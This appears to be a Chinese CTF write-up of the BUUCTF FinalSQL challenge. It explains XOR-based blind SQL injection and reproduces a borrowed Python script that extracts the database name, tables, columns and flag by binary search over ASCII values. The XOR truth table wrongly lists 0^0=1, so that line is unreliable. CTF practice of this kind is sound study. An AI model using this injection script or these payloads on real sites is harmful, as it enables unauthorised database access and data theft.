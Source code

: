 # T13 FinalSQL

> 题目：BUUCTF [极客大挑战 2019]FinalSQL 

__0x00 审题__

> 很难说我现在这个题会与不会，只能说脚本确实不是我写的（）

打开熟悉的页面，熟悉的连续剧，不熟悉的多了五个按钮

依次打开，我们注意到在打开第五个按钮后，出题人除了内涵我们之外还提到了：

```
You are too naive!How can I give it to you? So,why not take a look at the sixth one?But where is it?
```

看来我们需要找到第六个

这里要注意：url中的id=5，我们需要把它改成id=6

  
得到
```
Clever! But not this table.
```

页面名就是flag，按照常理我们应该寻找注点，也经过注入用户名或密码后发现，他与之前不同，注点为id，但是同样存在过滤，然后发现他能用的都过滤的差不多了，还有一个^可以用

> 问题：如何用^与盲注关联

__0x01 解题__

1. 关于^的应用

```
1^1=0
0^1=1
1^0=1
0^0=1
```

* __注：相同为假，相异为真__
  
> 同理：1^1^1=1,1^0^1=0
 
我们可以用这个来检查数据库名的长度

```
?id=1^(length(database())<4)^1#
```

> 问题：关于为什么用三个去判断1^1^1=1
  
最后得到：数据库名是4

2.关于如何用ASCII码来爆出库名，表名和字段名

附一段大佬源码

```python
import requests
import sys
import time
 
#判断数据库名长度
def get_DBlen(url):
    for i in range(1,10):
        db_url = url+"1^1^(length(database())=%d)#"%i
        r = requests.get(db_url)
        if "Click" in r.text:
            print("数据库名称的长度为:%d"%i)
            return i
#爆数据库名
def get_DBname(url,length):
    DBname = ""
    length = length + 1
    for i in range(1,length):
        Max = 122
        Min = 41
        Mid = (Max+Min)//2
        while Min <= Max:
            db_url = url+"1^1^(ascii(substr(database(),%d,1))>=%d)#"%(i,Mid)
            r = requests.get(db_url)
            if "Click" in r.text:
                Min=Mid+1
                Mid=(Min+Max)//2
                pass
            else:
                Max = Mid-1
                Mid = (Min+Max)//2
                pass
            pass
        DBname = DBname + chr(Mid)
    print("数据库名:",DBname)
    return DBname
 
def get_TBname(url):
    name=""
    i = 0
    print("字段内容为：")
    while True:
        i = i+1
        Max = 128
        Min = 32
        Mid = (Max+Min)//2
        while Min <= Max:
            # 爆表名
            # db_url = url+"1^1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>=%d)#"%(i,Mid)
            # 爆字段名
            # db_url = url+"1^1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>=%d)#"%(i,Mid)
            # 获取flag
            db_url = url+"1^1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>=%d)"%(i,Mid)
            r = requests.get(db_url)
            if "Click" in r.text:
                Min=Mid+1
                Mid=(Min+Max)//2
                pass
            else:
                Max=Mid-1
                Mid=(Min+Max)//2
                pass
            pass
        name=name+chr(Mid)
        if Mid == 31:
            break
        print(name)
    #速度太快显示不完全
        time.sleep(0.5)
 
 
if __name__=="__main__":
    url = ""
    db_Len = get_DBlen(url)
    db_Name = get_DBname(url,db_Len)
    tb_name = get_TBname(url)
```

[详情](https://blog.csdn.net/qq_52907838/article/details/119145599)

__0x02 总结__

> 确实自己没有啥思路，直接记录问题（大概会解决）

1. 关于通过ASCII如何得到我们想要的数据
2. 关于得到数据过程中二分法的应用
3. 关于我何时自己写脚本（），写的还得能跑（）

